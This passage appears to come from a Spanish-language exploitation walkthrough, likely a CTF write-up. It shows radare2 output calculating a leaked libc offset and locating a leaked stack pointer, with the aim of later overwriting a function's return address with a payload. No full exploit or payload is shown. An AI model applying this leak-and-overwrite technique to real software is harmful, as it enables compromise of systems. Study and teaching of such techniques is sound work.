 ``` 
[0x0040146c]> ? 0x00007fde7aa29d90   - 0x00007fde7aa00000
int32   171408
uint32  171408
hex     0x29d90              <---- offset de la direccion filtrada con respecto a libc base
octal   0516620
unit    167.4K
segment 2000:9d90
string  "\x90\x9d\x02"
fvalue  171408.0
float   0.000000000000000f
double  0.000000000000000
binary  0b000000101001110110010000
base36  0_3o9c
ternary 0t22201010110 
```

En el offset 7 se filtra un puntero al mismo stack. Podemos obtener el valor de la direccion que filtra a libc (el retorno) para posteriormente sobreescribirlo con nuestra carga util. Le restamos rbp por el ajuste que se hace antes de retornar de una funcion en la pila, y luego restamos 8 por el tamaño reservado para variables al llamar a una función en el x86_64.

```
[0x0040146c]> pxQ @ rsp - 0x40
0x7ffc8981fc60 0x00007fde7ae39040 r15 
0x7ffc8981fc68 0x00007fde7aa7f410  
0x7ffc8981fc70 0x0000000000000000 section.                <---- offset 0 
0x7ffc8981fc78 0x00007ffc8981fe50 rbp
0x7ffc8981fc80 0x00007ffc8981ff68 r12
0x7ffc8981fc88 0x000000000040137a main
0x7ffc8981fc90 0x0000000000403e18 section..fini_array
0x7ffc8981fc98 0x0000000000401462 main+232
0x7ffc8981fca0 0x0000000000000000 section.     
0x7ffc8981fca8 0x00007ffc8981ff78 r12+16                  <---- offset 6
0x7ffc8981fcb0 0x00007ffc8981ff68 r12      
```

```
[0x0040146c]> ? 0x00007ffc8981ff78 - rbp - 8
int32   288
uint32  288
hex     0x120     <---- 
octal   0440
unit    288
segment 0000:0120
string  " \x01"
fvalue  288.0
float   0.000000000000000f
double  0.000000000000000
binary  0b0000000100100000
base36  0_80
ternary 0t101200
```
